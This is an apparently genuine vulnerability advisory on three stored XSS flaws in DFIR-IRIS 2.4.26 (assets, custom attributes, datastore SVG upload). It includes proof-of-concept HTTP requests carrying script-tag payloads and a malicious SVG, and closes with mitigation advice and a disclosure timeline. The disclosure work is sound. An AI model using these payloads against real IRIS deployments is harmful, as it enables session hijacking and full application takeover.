





# DFIR-IRIS Stored XSS #

## Vulnerability Overview ##

The IRIS web application in version 2.4.26 and possibly others is vulnerable
to stored cross-site scripting (XSS) in the assets (CVE-2026-16969), custom
attributes (CVE-2026-18360) and datastore upload (CVE-2026-18361) functions.

* **Identifier**            : SBA-ADV-20260126-01
* **Type of Vulnerability** : Stored XSS
* **Software/Product Name** : [IRIS](https://www.dfir-iris.org/)
* **Vendor**                : [DFIR-IRIS](https://github.com/dfir-iris)
* **Affected Versions**     : 2.4.26
* **Fixed in Version**      : not currently available
* **CVE ID**                : CVE-2026-16969 CVE-2026-18360 CVE-2026-18361
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:L/A:N
* **CVSS Base Score**       : 7.6 (High)

## Vendor Description ##

> IRIS is a collaborative digital platform designed for incident response
> analysts to share complex investigations at a technical level. It can be
> installed on a dedicated server or as a portable application for roaming
> investigations where internet access might not be available.

Source: <https://docs.dfir-iris.org/2.4.24/>

## Impact ##

JavaScript code controlled by an attacker will be executed in the victim’s
browser when they are using certain parts of the application. This can be
misused e.g., to take over another user’s session. Since administrators are
affected by this vulnerability as well, this can lead to a complete takeover
of the application.

## Vulnerability Description ##

Cross-Site Scripting attacks are a type of injection problem, in which
malicious scripts are injected into the otherwise benign and trusted
websites. Cross-site scripting (XSS) attacks occur when an attacker uses a
web application to send malicious code, generally in the form of a browser
side script, to a different end user. Flaws that allow these attacks to
succeed are quite widespread and occur anywhere where a web application uses
input from a user in the output it generates without validating or encoding
it.

An attacker can use XSS to send a malicious script to an unsuspecting user.
The end user’s browser has no way to know that the script should not be
trusted and will execute the script. Because the browser thinks the script
came from a trusted source, the malicious script can access any cookies,
session tokens, or other sensitive information retained by the user’s browser
and used with that site. These scripts can even rewrite the content of the
HTML page.

## Proof of Concept ##

There are multiple parts of the application that are susceptible to this
vulnerability.

### Assets (CVE-2026-16969) ###

The asset name and asset description in a *case* can contain arbitrary HTML
text. When displayed within the **Assets** tab of a *case*, correct output
encoding is performed. But the assets are also displayed in other parts of
the application such as the customer settings. There, the output encoding is
not performed making the XSS attack possible. These settings are also opened
by administrators.



The JS code is executed in the customer settings (Advanced -> Customers ->
*Select customer of case*):



### Custom Attributes (CVE-2026-18360) ###

Administrators can automatically assign new attributes to certain object types
at the URL-path `/manage/attributes`. Several input types are available for
this purpose, including HTML. The documentation already points out that the
HTML type is susceptible for vulnerabilities, but no proper protection
measures are implemented here nevertheless. If an XSS vector is added, it will
be executed when the attributes are loaded. For the customer type, this
happens, for example, when editing an existing customer or creating a new one.

```http
POST /manage/attributes/update/8?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 495
Origin: https://myiris.local
Referer: https://myiris.local/manage/attributes?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

{"attribute_content":"{\n    \"XSS Example\": {\n        \"Content\": {\n            \"type\": \"html\",\n            \"value\": \"<em>Italic text</em>\"\n        },\n        \"Attack\": {\n            \"type\": \"html\",\n            \"value\": \"<script>alert('XSS in custom customer attributes')</script>XSS\"\n        }\n    }\n}","csrf_token":"ImNkYzIwYjI2YTVjZjZmN2VlZTc0OGMyM2NmYjIwYjgxNTU5ODQxNGYi.aWjvwA.-J5pnpsvkKYoNZyscRrTWxCQW8k","partial_overwrite":false,"complete_overwrite":false}

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 22 Jan 2026 13:47:47 GMT
Content-Type: application/json
Content-Length: 65
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "Attribute updated", "data": []}
```





### Datastore Upload (CVE-2026-18361) ###

It is possible to upload an SVG file containing a `<script>` tag to the
*Datastore*.

```http
POST /datastore/file/add/2?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Length: 1275
Origin: https://myiris.local
Referer: https://myiris.local/case?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: green
Priority: u=0
Te: trailers
Connection: keep-alive

------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Disposition: form-data; name="csrf_token"

ImRmMTMzZTczYzAwZDRjMDk5ZjhiZWQ3MDViYTk0YmE4MDdiZDZjOTAi.aWjsuw.qPsLl3Mn3UF1p0TvMrg1X3Zmz6o
------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Disposition: form-data; name="file_description"


------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Disposition: form-data; name="file_password"


------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Disposition: form-data; name="file_tags"


------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Disposition: form-data; name="file_content"; filename="xss.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce
Content-Disposition: form-data; name="file_original_name"

xss.svg
------geckoformboundaryfab64874d9d5d20fdd965199b28df4ce--

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 22 Jan 2026 13:34:01 GMT
Content-Type: application/json
Content-Length: 702
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "File saved in datastore ", "data": {"file_original_name": "xss.svg", "file_description": "", "file_id": 3, "file_uuid": "14514d6f-6171-4914-b3be-ac73e45d5f48", "file_local_name": "/home/iris/server_data/datastore/Regulars/case-1/dsf-14514d6f-6171-4914-b3be-ac73e45d5f48", "file_date_added": "2026-01-22T13:34:01.443962", "file_tags": "", "file_size": 379, "file_is_ioc": null, "file_is_evidence": null, "file_password": "", "file_parent_id": 2, "file_sha256": "206D7864487C8B35155BD20657738F38985785182FA6204392495EF5CDD2B19C", "added_by_user_id": 3, "modification_history": {"1768484041.44399": {"user": "pt2", "user_id": 3, "action": "created"}}, "file_case_id": 1}}
```

Afterwards, that file can be downloaded again at the path
`/datastore/file/view/3?cid=1`.

The browser is rendering the image, and in consequence executing the
JavaScript code, due to the content type being `image/svg+xml` and the
`Content-Disposition` header having the value `inline`.

```http
GET /datastore/file/view/3?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Pwnfox-Color: green
Priority: u=0, i
Te: trailers
Connection: keep-alive

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 22 Jan 2026 13:34:11 GMT
Content-Type: image/svg+xml; charset=utf-8
Content-Length: 379
Connection: keep-alive
Content-Disposition: inline; filename=xss.svg
Last-Modified: Thu, 22 Jan 2026 13:34:01 GMT
Cache-Control: no-cache
ETag: "1768484041.4498732-379-2204376257"
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
```



## Recommended Countermeasures ##

We are not aware of a fix yet. Please contact the vendor.

All user supplied data that is shown in the GUI needs to undergo strict
output encoding. This is done by the application in most places by manually
calling the library `js-xss`, but omitted in the specified parts. We
recommend replacing the manual output encoding with the consistent usage of a
template engine, since this is less error-prone.

To prevent the third attack vector, uploading a malicious SVG file to the
*Datastore*, the `Content-Disposition` header has to be set to a value of
`attachment`.

As a *Defense-in-Depth* measure, the *Content Security Policy (CSP)* of the
application should be hardened to prevent the execution of malicious
JavaScript code in the browser. At least the `unsafe-inline` statement should
be removed from it.

## Timeline ##

* `2026-01-26` Identified the vulnerability in version 2.4.26
* `2026-01-30` Initial vendor contact attempt via e-mail
* `2026-02-27` Second vendor contact attempt via e-mail
* `2026-03-30` Report on GitHub due to a missing response from the vendor
* `2026-07-07` Informed project about imminent publication
* `2026-07-24` SBA assigned CVE number
* `2026-07-30` SBA assigned additional CVE numbers since the instances are
               independently fixable
* `2026-07-30` Public disclosure due to missing response from the vendor

## References ##

* OWASP. Cross Site Scripting Prevention Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>
* Mozilla. MDN-Content-Disposition header:
  <https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Disposition>
* OpenCRE. CRE 366-835: <https://opencre.org/cre/366-835>
* Common Weakness Enumeration. CWE-79 Improper Neutralization of Input During
  Web Page Generation ('Cross-site Scripting'):
  <https://cwe.mitre.org/data/definitions/79.html>

## Credits ##

* Michael Koppmann ([SBA Research](https://www.sba-research.org/))
* Mathias Tausig ([SBA Research](https://www.sba-research.org/))

The discovery of this vulnerability was made possible through support from
[CYSSDE](https://cyssde.eu/) and the European Union.


